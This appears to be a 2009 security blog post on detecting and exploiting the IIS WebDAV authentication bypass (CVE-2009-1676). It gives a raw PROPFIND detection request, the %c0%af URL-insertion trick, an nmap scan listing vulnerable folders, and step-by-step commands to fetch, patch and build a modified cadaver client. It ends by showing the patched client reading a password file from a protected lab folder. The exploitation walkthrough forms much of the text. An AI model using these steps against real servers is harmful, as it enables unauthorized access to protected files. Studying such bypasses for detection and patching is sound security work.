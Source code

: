 ```yaml
---
id: 285
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:10:43-05:00'
author: Andrew
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=285'
permalink: /2009/webdav-detection-vulnerability-checking-and-exploitation
categories:
    - Hacking
    - Tools
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability ([CVE-2009-1676](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676)) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is \_not\_ protected then it's time to break out the funky cold medina and have some fun.

## Detecting if WebDAV is enabled

Tested working on  
 \* IIS 6.0/Windows 2003 Enterprise SP2  
 \* IIS 5.1/Windows XP Pro SP2  
 \* IIS 5.0/Windows 2000 SP4

On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

```

PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

<?xml version="1.0" encoding="utf-8"?>
<propfind xmlns="DAV:">
<prop>
<getcontentlength xmlns="DAV:"/>
<getlastmodified xmlns="DAV:"/>
<executable xmlns="http://apache.org/dav/props/"/>
<resourcetype xmlns="DAV:"/>
<checked-in xmlns="DAV:"/>
<checked-out xmlns="DAV:"/>
</prop>
</propfind>
```

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.

## Checking if a server is vulnerable

Tested working on  
 \* IIS 6.0/Windows 2003 Enterprise SP2  
 \* IIS 5.1/Windows XP Pro SP2

Tested not working on  
 \* IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.

## Finding a vulnerable server

Tested working on  
 \* IIS 6.0/Windows 2003 Enterprise SP2  
 \* IIS 5.1/Windows XP Pro SP2

Tested not working on  
 \* IIS 5.0/Windows 2000 SP4

Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

```

> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

## Exploiting it!

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called [cadaver](http://www.webdav.org/cadaver/), and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) and after hacking away at it for awhile, we came up with [a little patch](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch) that makes it quite easy to exploit a server. Check [the patch itself](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch) for the gritty details but basically it does the following:

1\) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)  
2\) Append the header "Translate: f" to every request (otherwise get and probably others won't work)  
3\) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the [cadaver-0.23.2-h4x.patch](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch) and apply it to the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) from the [cadaver website](http://www.webdav.org/cadaver/). Here's the commands:

```

> mkdir cadaver-h4x
> cd cadaver-h4x
> wget http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch
--snip--
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1  ./configure
--snip--
> make
--snip--
```

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

```

> ./cadaver xxx.xxx.xxx.xxx
```

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

```

dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
```

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:  
 \* CD  
 \* LS  
 \* MOVE  
 \* PUT  
 \* GET  
 \* CAT  
 \* DELETE

Oddly enough, the **COPY** command does **NOT** work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

If anyone has been able to successfully exploit this on IIS 5.0 (Windows 2000), please contact me, we've been trying and can't get it to work in the lab here.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca